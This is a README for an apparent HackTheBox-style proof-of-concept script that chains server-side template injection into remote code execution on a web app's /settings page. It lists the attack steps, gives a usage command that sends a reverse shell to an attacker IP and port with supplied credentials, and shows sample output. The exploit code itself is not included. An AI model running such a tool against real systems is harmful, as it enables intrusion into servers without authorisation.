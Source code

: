 # 🐍 SSTI → RCE Exploit PoC

**Author:** Uday  
**HackTheBox:** ExtremeUday2  
**X (Twitter):** [@udaypro2008](https://x.com/udaypro2008)

---

## 📌 Description
This PoC demonstrates **Server-Side Template Injection (SSTI)** leading to **Remote Code Execution (RCE)**.  
The script automates the following steps:
1. 🏷️ Fetch CSRF Token
2. 🔑 Login with given credentials
3. 🍪 Capture session cookies
4. 💉 Inject SSTI payload in `/settings`
5. 📞 Get a reverse shell on attacker machine

---

## ⚠️ Disclaimer
> This code is for **educational purposes only**.  
> Do NOT use it on live systems without permission.  

---

## 🚀 Usage

```bash
python3 ssti_rce.py -url http://TARGET -lhost 10.10.14.8 -lport 4444 --username admin --password password
```
---

## 🎯 Example Output
- [+] CSRF Token Found: abc123
- [+] Login Successful
- [+] Sending Payload...
- [+] Payload Sent Successfully! Check your listener.
